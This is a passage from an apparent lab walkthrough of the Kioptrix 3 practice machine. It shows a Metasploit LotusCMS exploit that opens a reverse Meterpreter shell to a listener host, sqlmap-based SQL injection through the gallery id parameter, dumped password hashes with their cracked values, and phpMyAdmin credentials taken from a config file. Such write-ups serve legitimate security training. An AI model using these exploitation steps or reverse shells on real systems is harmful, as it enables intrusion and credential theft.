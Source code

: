     msf exploit(lcms_php_exec) > set RHOST kioptrix3.com  
    RHOST => kioptrix3.com  
      
    msf exploit(lcms_php_exec) > run  
      
    [*] Started reverse TCP handler on 192.168.1.69:4444   
    [*] Using found page param: /index.php?page=index  
    [*] Sending exploit ...  
    [*] Sending stage (34122 bytes) to 192.168.1.70  
    [*] Meterpreter session 1 opened (192.168.1.69:4444 -> 192.168.1.70:32943) at 2016-12-21 00:55:22 -0500  
      
    meterpreter > shell  
    Process 6991 created.  
    Channel 0 created.  
    whoami  
    www-data  
    

  

#### Method 3: SQL injection through Gallery

_kioptrix3.com/gallery/gallery.php?id=1_ is vulnerable to SQL injection
through the id parameter.  
There are multiple ways to exploit this vulnerability, easiest is just using
sqlmap. Ultimately you'll find MD5 hashes for a couple of accounts. Password
for loneferret matches the one we found through hydra!  
  

    
    
    Database: gallery  
    Table: dev_accounts  
    [2 entries]  
    +----+------------+---------------------------------------------+  
    | id | username   | password                                    |  
    +----+------------+---------------------------------------------+  
    | 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |  
    | 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |  
    +----+------------+---------------------------------------------+  
    

  
Also note that with the second method, you can do some enumeration on the
machine and you'll find the following file particularly interesting:
_**/home/www/kioptrix3.com/gallery/gconfig.php** _as it contains phpmyAdmin
credentials **(root/fuckeyou)** with enough privileges to find the same
database discussed earlier. These creds don't work for SSH though.  

## 4\. Privilege Escalation to root

Now that we're inside let's find some useful data. I logged in with
loneferret's credentials.  

    